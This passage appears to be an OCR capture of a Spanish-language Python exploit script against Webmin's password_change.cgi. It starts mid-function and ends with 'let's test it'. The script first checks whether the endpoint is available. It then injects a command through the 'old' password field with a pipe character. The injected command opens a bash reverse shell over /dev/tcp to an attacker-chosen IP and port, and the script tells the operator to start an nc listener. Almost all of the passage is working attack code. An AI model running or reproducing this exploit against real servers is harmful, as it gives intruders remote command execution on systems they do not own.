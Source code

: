 ```python
                if response.status_code == 200:
                        print("[+] El endpoint password_change.cgi está disponible.")
                        return True
                else:
                        print("[-] El endpoint no está disponible o la versión no es vulnerable.")
                        return False
        except Exception as e:
                print(f"[!] Error al conectar con {url}: {e}")
                return False


# Explotando vulnerabilidad de RCE para enviar Reverse Shell
def exploit(url_base, ip, port):
        print("[+] Enviando Payload para obtener Reverse Shell")

        url = url_base + '/password_change.cgi'
        shell = f'bash -c "bash -i >& /dev/tcp/{ip}/{port} 0>&1"'
        encoded_shell = urllib.parse.quote(shell)

        payload = f'user=berserk&pam=&expired=2&old=berserk|{encoded_shell}&new1=berserk&new2=berserk'

        headers = {
                'Cookie': "redirect=1; testing=1; sid=x; sessiontest=1",
                'Referer': "{url_base}/session_login.cgi",
                'Content-Type': "application/x-www-form-urlencoded"
        }

        try:
                requests.post(url, headers=headers, data=payload, verify=False, timeout=5)
                print("[+] Payload enviado. Si todo está bien, recibirás la reverse shell.")
        except ReadTimeout:
                print("[+] Payload enviado. El servidor no respondió (esto es normal si la shell fue exitosa).")
        except Exception as e:
                print(f"[!] Falló el envío del payload: {e}")


if __name__ == '__main__':
        args = parse_arguments()

        print(f"[!] Asegúrate de tener el listener activo con: nc -lvnp {args.p}\n")
        time.sleep(2)
        vulnerable = check_password_change(args.url)
        if vulnerable:
                exploit(args.url, args.ip, args.p)
        else:
                print("[!] Webmin no parece ser vulnerable o no se pudo acceder al endpoint.")
```
Hagamos una prueba.
